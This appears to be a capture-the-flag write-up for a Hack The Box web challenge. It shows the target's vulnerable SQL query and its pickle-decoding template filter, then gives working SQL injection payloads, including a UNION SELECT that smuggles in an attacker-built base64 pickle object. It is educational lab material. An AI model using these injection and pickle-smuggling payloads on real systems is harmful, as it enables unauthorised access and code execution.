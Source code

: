 ![localhost_1337_view_%27%20OR%20%271%27%3D%271](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/4f9117b9-6dc8-4ac6-befd-6b8416fc5cc3)# HTB-Challenges-Web-COP

## Challenge Description
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

![localhost_1337_(Nest Hub Max)](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/999d7d68-5db6-4b8f-b08c-5e9a6186d433)

## Reconnaissance
While scanning the code, two files stood out: **application/models.py** and **application/blueprints/routes.py**. Analyzing the code within these files reveals a concerning vulnerability. The application appears to be using path parameters directly within its SQL queries, without proper validation or sanitization. This practice makes the application highly susceptible to SQL injection attacks (SQLi).
```py
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

The application uses the Jinja2 template engine, which is known to be vulnerable to SSTI attacks if not configured correctly. Additionally, before displaying, the data also undergoes processing using Jinja Filters, as indicated by the syntax `{% set item = product | pickle %}`

```jinja
<div class="row gx-4 gx-lg-5 align-items-center">
    {% set item = product | pickle %}
    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
    <div class="col-md-6">
        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
        <div class="fs-5 mb-5">
            <span>£{{ item.price }}</span>
        </div>
        <p class="lead">{{ item.description }}</p>
    </div>
</div>
```

The method of storing data in the database is intriguing. Each row consolidates information into a single field, employing an encoding technique that uses `pickle` and `base64`. This leads to the use of Jinja Filters for decoding the data.

```py
with open('schema.sql', mode='r') as f:
    shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
    get_db().cursor().executescript(f.read().format(*list(shop)))
```

## Scanning
Initially, I conducted a test for SQL injection. It's worth noting that the application employs SQLite, limiting the potential for Remote Code Execution (RCE) in this context.

![localhost_1337_view_%27%20OR%20%271%27%3D%271](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/7f5c3012-f028-4bb7-a379-6e5df22d1c4b)

We successfully injected the payload `' OR '1'='1` or `%27%20OR%20%271%27%3D%271` into the product ID via URL path parameters, allowing us to retrieve the first item. Now, our goal is to display an item that we can control, facilitating testing for Server-Side Template Injection (SSTI) or template injection.

To achieve this, I plan to create a Python script that generates a dictionary with fields similar to those the application uses. Since Jinja accesses both objects and dictionaries using dot notation, a dictionary will suffice. Additionally, I'll encode it in a way that the application can decode and display as intended.

```py
evil_item = {
    "name": "Some name",
    "description": "Some description",
    "price": "100",
    "image": "/static/images/not_found.jpg",
}

print(base64.b64encode(pickle.dumps(evil_item)).decode())
# gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```

With the encoded item in hand, my next step is to showcase it in the application. I'll employ the `UNION` technique. Initially, I'll deliberately attempt to fetch non-existent data from the database and then append my encoded object to the result. This ensures that my encoded object becomes the sole data returned by the query.

```sql
' UNION SELECT 'gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```
```
%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D
```

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/25844325-c408-4ac3-b16f-4ab560be673f)
